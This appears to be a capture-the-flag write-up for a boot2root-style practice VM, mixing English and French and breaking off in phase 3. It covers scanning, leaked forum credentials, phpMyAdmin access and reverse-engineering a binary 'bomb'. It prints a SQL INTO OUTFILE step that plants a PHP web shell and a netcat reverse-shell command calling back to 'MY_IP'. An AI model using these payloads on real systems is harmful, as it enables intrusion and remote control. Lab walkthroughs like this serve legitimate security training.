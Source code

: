 installer kalilinux
sudo apt-get install gobuster

scanner le réseau avec nmap
cmd : nmap -sP 192.168.0-255.0/24

get the ip of the virtual machine

nmap the ip of the machine (there are on ports) port 80 et 443 open -> web server
cmd : nmap --top-ports 1000 -T4 -sC http://example.com
	OR
open armitage and scan within the range of the virtual machine

Go to the ip of the virtual machine on internet or curl it. There is a page.

nikto -h + adress ou dirb sur l'ip de la machine en http et https
cmd: nikto -h https://ip_machine
OR
cmd: dirb https://ip_machine

phpmyadmin + forum + mail

User login try !q\]Ej?*5K5cy*AJ in forum 6
(maybe password misstype?)
And right after that lmezard logged in, maybe it was a mistake from his part ..

user: lmezard
pwd: !q\]Ej?*5K5cy*AJ

Try to send mail to admin when you're logged in
your mail is : laurie@borntosec.net

We still have the webmail we didn't use, we try to logged on it with the mail adress and
the same pwd we still have.
Connecting to mail at webmail works.

In the mail we have the logged for phpmyadmin.
Connecting to db via the mail from the admin
user: root
pwd: Fg-'kKXBj87E:aJ$

If we go here ip_machine/icons/README, we see that the server is running on apache, by default the directory is /var/www

We need this command
INSERT INTO `mlf2_entries_cache`(`cache_id`, `cache_text`) VALUES (12,LOAD_FILE("/var/www/forum/index.php"))

We have the right to write in compile dir

If we look at the code we have directory, we can try to put in some file with that mysql command

select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/test.php"

the good dir is /var/www/forum/templates_c/test.php (who is the compile dir in index.php)

reverse shell on that website without -e
https://www.nicolashug.com/pentest-et-securite/netcat-reverse-shell-e
launch on kali : nc -nvlp 1234
cmd in the php exploit : mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | nc MY_IP 1234 1>/tmp/backpipe

directory /home/LOOKATME
cd /home/LOOKATME; cat password
there is something on the password
user: lmezard
pwd: G!@M6f4Eatau{sF"

got a file called fun
need to parse it
I try to send it into a html in the dir i have the right and parse it.. But i was wrong
The file is actually a .tar
So i open a ssh port on the kali machine and connect it via lmezard account to copy it with scp and then untar it (tar -xzf fun)
We have the position of each file with //fileXX
I unrar it but there is still parsing to do. I have to get a "\n" at the end of each to escape the //file of the previous file so that the next line isn't escape. It works !
I have a message who tell me to ssh a pass.. let's do it

The result is used to login with user laurie in ssh
user: laurie
pwd: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

We see the bomb with a file readme
Bomb is compiled, we use hexray (ida64)

PHASE_1

We see that the first_phase is a strcmp with "Public speaking is very easy."
We type it -> victory
We can see the adress with gdb if we disas phase_1 and p/s (for the character) and the adress of the register


PHASE_2

we need to disas phase_2,
got this line :
	0x08048b56 <+14>:	lea    -0x18(%ebp),%eax
   	0x08048b59 <+17>:	push   %eax
   	0x08048b5a <+18>:	push   %edx
	0x08048b5b <+19>:	call   0x8048fd8 <read_six_numbers>
	- So we push the adress of %ebp in read_six_numbers

	0x08048b63 <+27>:	cmpl   $0x1,-0x18(%ebp)
  	0x08048b67 <+31>:	je     0x8048b6e <phase_2+38>
 	0x08048b69 <+33>:	call   0x80494fc <explode_bomb>
 	- Here if the first number of ebp isn't 1 we don't jump and we explode


After that we launch gdb (yeah), and we disas phase_2 and put a breakpoint just before the cmp which is just before the explosion
and we look at eax register each time with "info r"
break *0x08048b7e

We got 1 2 6 24 120 720

PHASE_3

REGISTRE A LA CON : eax<=2 && ebp>7
